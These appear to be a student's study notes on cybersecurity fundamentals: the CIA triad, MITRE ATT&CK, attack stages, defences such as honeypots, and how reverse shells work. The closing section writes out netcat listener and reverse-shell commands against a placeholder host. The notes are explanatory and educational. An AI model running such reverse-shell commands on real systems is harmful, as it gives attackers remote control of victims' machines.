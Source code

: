 
---
**CIA Triad** - Confidentiality - Integrity - Availability
**Adversaries** try to violate one of the - CIA

##### [MITRE ATT&CK](https://attack.mitre.org/)
1. Reference framework built upon observations of many real attacks
2. Database (or ontology) (with links and navigation) for associating tactics/techniques
3. Tool - MITRE ATT&CK Navigator (Framework & Tool are not always perfectly aligned)
   - The ATT&CK Navigator is a web-based tool for annotating and exploring ATT&CK matrices.
   - It can be used to visualize defensive coverage, red/blue team planning, the frequency of detected techniques, and more.

##### Targets
1. Organizations
2. Single individuals
3. Industrial control systems (ICS)

---
##### Attacking an organization
1. Initial Access Execution
2. Persistence
3. C&C (Command & Control)
4. Discovery
5. Lateral movement
6. Privilege escalation (No damage yet)
7. Exfiltration / Impact (damage done)

**Exfiltration** - Violation of Confidentiality. Tool - `HTran`
**Impact** - Violation of Integrity or Availability

**Resource Development** - Adversary has to establish resources before Initial Access
**Reconnaissance** (or Recon) - Gather information for future operations (before Initial Access)

A strong defense on a **few techniques** may suffice to **disrupt the attack** (KILL CHAIN)

Defense must consist of:
1. Mitigation
2. Detection
3. Remediation - Backups

**Honey-pots**
1. Machines placed in networks to attract adversaries & detect their presence.
2. Company that provides useful & ready to use honey-pots: [Canarytokens](https://canarytokens.org/nest/)
3. This tool can only be helpful if Detection activities are already in place.
---
##### ICS
Attacks on **ICS** may have *strategic/intelligence* motivations.
Objective is stealing/disruption, not money.

---
##### Threat model
1. Starting point

---
##### Reverse Shells
1. Either remote shell - Malware is itself a shell. Example: `meterpreter`
2. Or malware spawns a shell of the target platform & connects I/O as needed.
3. But the remote shell has to be a client. If it becomes a server, we will not be able to access it from outside the organization.
4. Adversary
   - Listener. Example: `netcat` --> `nc -lnvp 4242`
   - Server at TCP level
   - Client at shell level
5. Malware (on Victim machine)
   - Server at shell level
   - Client at TCP level
   - Example: `nc -e /bin/sh IP-x 4242`
   - Or spawn a shell using `socket` & `subprocess` in Python

---
